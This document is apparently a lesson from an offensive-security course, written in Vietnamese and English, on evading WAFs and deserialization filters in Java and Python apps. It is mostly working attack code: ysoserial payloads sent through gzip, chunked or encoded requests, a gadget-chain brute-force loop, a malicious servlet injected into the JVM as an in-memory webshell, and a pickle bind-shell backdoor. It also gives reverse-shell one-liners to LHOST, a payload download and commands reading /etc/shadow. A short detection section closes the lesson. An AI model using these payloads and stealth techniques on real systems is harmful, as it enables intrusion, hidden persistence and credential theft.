

> **Prerequisites**: [[15-bypass-serialization-filters|15. Bypass Serialization Filters]], [[16-python-pickle-rce|16. Python Pickle RCE]], [[19-flask-django-session|19. Flask/Django Session]]
> **Objectives**:
> - Bypass WAF magic byte detection với encoding và compression tricks
> - Evade serialization filters với alternative gadget chains
> - Inject in-memory webshell vào running JVM để avoid disk artifacts
> - Hiểu trade-off giữa noisy reverse shell và stealthy in-memory persistence

---

## Điều kiện khai thác

> [!note] Context
> Bài này áp dụng sau khi đã confirm deserialization tồn tại nhưng standard payloads bị block. Đây là advanced escalation — không phải entry-level technique. Cần đã hoàn thành Lessons 09 và 15 trước.

---

## Phần 1: WAF Evasion Techniques

### Technique 1a — GZip Compression

WAF pattern-match trên `AC ED 00 05` và `rO0AB`. GZip wrap thay đổi toàn bộ byte sequence:

```bash
# Generate payload
java -jar ysoserial.jar CommonsCollections6 "sleep 5" > /tmp/payload.ser

# GZip wrap
gzip -c /tmp/payload.ser > /tmp/payload.ser.gz

# Check: đầu tiên là 1F 8B (gzip magic), không còn AC ED
xxd /tmp/payload.ser.gz | head -1
# 0000000: 1f8b 0800 ...   ← gzip, buries AC ED inside

# Deliver với Content-Encoding header
curl http://TARGET:8080/endpoint \
  -H "Content-Type: application/x-java-serialized-object" \
  -H "Content-Encoding: gzip" \
  --data-binary @/tmp/payload.ser.gz
```

> **Expected output**: Server decompresses, then deserializes → payload executes.

### Technique 1b — Chunked Transfer Encoding

HTTP chunked encoding chia body thành nhiều fragments. Một số WAF không reassemble trước khi inspect:

```python
#!/usr/bin/env python3
# chunked_deliver.py

import socket, base64, sys

def chunked_send(host, port, path, payload_bytes):
    chunk_size = 128  # nhỏ để force reassembly issues
    chunks = [payload_bytes[i:i+chunk_size]
              for i in range(0, len(payload_bytes), chunk_size)]

    body = ""
    for chunk in chunks:
        body += f"{len(chunk):x}\r\n"
        body += chunk.decode('latin-1') + "\r\n"
    body += "0\r\n\r\n"

    request = (
        f"POST {path} HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"Content-Type: application/x-java-serialized-object\r\n"
        f"Transfer-Encoding: chunked\r\n"
        f"Connection: close\r\n\r\n"
        + body
    )

    with socket.socket() as s:
        s.connect((host, port))
        s.send(request.encode('latin-1'))
        return s.recv(4096)

payload = open("/tmp/payload.ser", "rb").read()
print(chunked_send("TARGET", 8080, "/endpoint", payload))
```

### Technique 1c — URL Encoding

```python
# URL-encode entire payload body
import urllib.parse

with open("/tmp/payload.ser", "rb") as f:
    payload = f.read()

encoded = urllib.parse.quote(payload)
import subprocess
subprocess.run([
    "curl", "-s", "http://TARGET/endpoint",
    "-H", "Content-Type: application/x-www-form-urlencoded",
    "--data-urlencode", f"data={urllib.parse.quote(payload)}"
])
```

### Technique 1d — Base64 Variants

```bash
# Standard base64
base64 -w0 /tmp/payload.ser

# URL-safe base64 (- và _ thay + và /)
python3 -c "
import base64, sys
data = open('/tmp/payload.ser','rb').read()
print(base64.urlsafe_b64encode(data).decode())
"

# Double-encoded
base64 -w0 /tmp/payload.ser | base64 -w0
```

---

## Phần 2: Alternative Gadget Chain Selection

Khi class cụ thể bị blacklist bởi SerialKiller/ObjectInputFilter:

```bash
# Trial order — từ most compatible đến least:
GADGETS=(
  "CommonsCollections6"    # No JDK version restriction, popular
  "CommonsBeanutils1"      # Uses commons-beanutils, not CC
  "Spring1"                # Spring-core dependent
  "Spring2"                # Alternative Spring chain
  "ROME"                   # RSS library
  "Groovy1"                # Groovy-dependent
  "CommonsCollections2"    # commons-collections4
  "CommonsCollections4"    # Alt CC4 chain
  "JRMPClient"             # Two-stage via JRMPListener
)

for GADGET in "${GADGETS[@]}"; do
    echo "[*] Trying: $GADGET"
    java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
         --add-opens=java.base/java.net=ALL-UNNAMED \
         --add-opens=java.base/java.util=ALL-UNNAMED \
         -jar ysoserial-all.jar "$GADGET" "sleep 3" > /tmp/test_${GADGET}.ser 2>/dev/null

    START=$(date +%s)
    curl -s http://TARGET/endpoint \
      -H "Content-Type: application/x-java-serialized-object" \
      --data-binary @/tmp/test_${GADGET}.ser -o /dev/null
    ELAPSED=$(( $(date +%s) - START ))

    if [ $ELAPSED -ge 3 ]; then
        echo "[!] SUCCESS: $GADGET (${ELAPSED}s delay)"
        break
    fi
    echo "    Failed ($ELAPSED s)"
done
```

---

## Phần 3: In-Memory Webshell Injection

![[assets/img-22-inmemory-webshell.png]]
*Hình 1: Injection flow từ deserialization RCE đến persistent in-memory access. Không có file write, không có process spawn — harder to detect.*

### Concept: TemplatesImpl Class Loading

Thay vì `Runtime.exec()` trực tiếp, attacker dùng `TemplatesImpl` gadget để load arbitrary Java bytecode vào JVM. Bytecode đó register một HTTP Servlet — sau đó attacker access URL để execute commands.

```java
// Bước 1: Compile malicious servlet
// MaliciousServlet.java
import javax.servlet.*;
import javax.servlet.http.*;
import java.io.*;

public class MaliciousServlet extends HttpServlet {
    protected void doGet(HttpServletRequest req, HttpServletResponse resp)
            throws IOException {
        String cmd = req.getParameter("c");
        if (cmd == null) cmd = "id";
        Process p = Runtime.getRuntime().exec(
            new String[]{"/bin/bash", "-c", cmd});
        BufferedReader br = new BufferedReader(
            new InputStreamReader(p.getInputStream()));
        PrintWriter out = resp.getWriter();
        String line;
        while ((line = br.readLine()) != null) out.println(line);
    }
}
```

```bash
# Compile
javac -cp tomcat-servlet-api.jar MaliciousServlet.java
# Kết quả: MaliciousServlet.class (bytecode)
python3 -c "
import base64
print(base64.b64encode(open('MaliciousServlet.class','rb').read()).decode())
"
```

### Inject Via TemplatesImpl Gadget

```java
// Trong exploit code — thay InvokerTransformer bằng TemplatesImpl:
byte[] shellBytes = Base64.getDecoder().decode("COMPILED_CLASS_BASE64");

TemplatesImpl templates = new TemplatesImpl();
// Reflection để set private fields
setField(templates, "_bytecodes", new byte[][]{shellBytes});
setField(templates, "_name", "InnocuousName");
setField(templates, "_tfactory", new TransformerFactoryImpl());

// Khi newTransformer() được gọi → defineClass → static initializer → servlet registered
// Thay thế InvokerTransformer trong CC chain bằng:
InvokerTransformer invoker = new InvokerTransformer(
    "newTransformer", new Class[0], new Object[0]);
```

### Practical: Dùng Pre-built Tool

```bash
# memshell-generator (c0ny1/memshell-generator)
git clone https://github.com/c0ny1/memshell-generator
cd memshell-generator

# Generate Tomcat Filter shell bytecode
java -jar memshell-generator.jar generate \
  --type TomcatFilterShell \
  --password c0ny1 \
  --output tomcat_shell.class

# Convert to base64 cho embedding
base64 -w0 tomcat_shell.class > tomcat_shell_b64.txt

# Combine với TemplatesImpl gadget trong custom ysoserial payload
# (Requires ysoserial fork hoặc custom exploit code)
```

### Access In-Memory Shell

```bash
# Sau khi inject thành công:
# Servlet registered tại /shell (hoặc path attacker chọn)
curl "http://TARGET/shell?c=id"
# uid=1000(tomcat)

curl "http://TARGET/shell?c=cat+/etc/passwd"
curl "http://TARGET/shell?c=hostname"

# Upload file thêm (lateral movement)
curl "http://TARGET/shell?c=curl+http://LHOST/tools/linpeas.sh+-o+/tmp/l.sh"
```

---

## Phần 4: Python In-Memory Persistence

```python
# Python variant: inject code vào running process via pickle
# Thay vì os.system(), dùng exec() để modify globals

class PersistentBackdoor:
    def __reduce__(self):
        code = """
import threading, socket, os, pty

def backdoor():
    s = socket.socket()
    s.bind(('0.0.0.0', 9999))
    s.listen(1)
    conn, _ = s.accept()
    os.dup2(conn.fileno(), 0)
    os.dup2(conn.fileno(), 1)
    os.dup2(conn.fileno(), 2)
    pty.spawn('/bin/bash')

t = threading.Thread(target=backdoor, daemon=True)
t.start()
"""
        return (exec, (code,))

# Inject → TCP listener on 9999 starts in process memory
# nc 10.10.10.50 9999
```

---

## Cây quyết định



---

## Command Cheatsheet

**WAF Bypass**

```bash
# GZip
gzip -c payload.ser | curl TARGET -H "Content-Encoding: gzip" \
  -H "Content-Type: application/x-java-serialized-object" --data-binary @-

# Double-encode
base64 -w0 payload.ser | base64 -w0 | \
  curl TARGET --data "data=$(cat -)"

# Check if WAF sees gzip
curl -v TARGET -H "Content-Encoding: gzip" --data-binary @payload.ser.gz 2>&1 | \
  grep -E "< HTTP|blocked|forbidden"
```

**Alternative Gadgets**

```bash
# BeanUtils (no CC dependency)
java -jar ysoserial.jar CommonsBeanutils1 "bash -c 'bash -i >& /dev/tcp/LHOST/PORT 0>&1'"

# JRMPClient two-stage
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 4444 CC6 "bash -c '...'" &
java -jar ysoserial.jar JRMPClient "LHOST:4444" > jrmp.ser
curl TARGET --data-binary @jrmp.ser -H "Content-Type: application/x-java-serialized-object"
```

**In-Memory Webshell Access**

```bash
# Execute commands
curl "http://TARGET/shell?c=id"
curl "http://TARGET/shell?c=cat+/etc/shadow"

# Reverse shell via memory shell
curl "http://TARGET/shell?c=bash+-c+'bash+-i+>%26+/dev/tcp/LHOST/PORT+0>%261'"
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày trong 7 ngày.

**Drill 1 — GZip bypass flow**
Mục tiêu: 3 bước trong < 60 giây không nhìn notes.

```bash
gzip -c payload.ser > p.gz
curl TARGET -H "Content-Encoding: gzip" \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @p.gz
```

**Drill 2 — Gadget chain selection under pressure**
Mục tiêu: trial 5 gadgets trong < 10 phút với automated loop.

```bash
for g in CommonsBeanutils1 Spring1 ROME Groovy1 CommonsCollections2; do
  java -jar ysoserial.jar $g "sleep 3" > /tmp/t.ser
  # time curl + check elapsed
done
```

**Drill 3 — In-memory shell access**
Mục tiêu: nhớ URL pattern và cách deliver command.

```
GET /shell?c=id → execute id
GET /shell?c=cat+/etc/passwd → read file
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **WAF evasion**: HTTP `Content-Encoding: gzip` đến Java endpoints không phải static assets → inspect
> **Timing patterns**: Bursts requests với ~3-5 second delays → automated gadget trial
> **In-memory shell**: HTTP 200 responses to undocumented URL paths → new handler registered
> **JVM telemetry**: Class definition events via JVMTI agent → TemplatesImpl injection

> [!note] Mitigation — Defense in Depth
> Không có single control ngăn được tất cả. Cần stack:
> - WAF với deep-inspection (GZip decompression + magic byte check)
> - ObjectInputFilter whitelist (không phải blacklist)
> - RASP monitoring class definition events
> - Network egress controls (block outbound from app servers)
> - Anomaly detection trên HTTP paths

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Advanced Java boxes** | Multiple filter layers present |
| PortSwigger | **Custom gadget chain labs** | Whitebox filter bypass practice |
| Custom | **Tomcat + ModSecurity** | Local WAF evasion lab |
| Custom | **SerialKiller demo** | Blacklist bypass với BeanUtils |
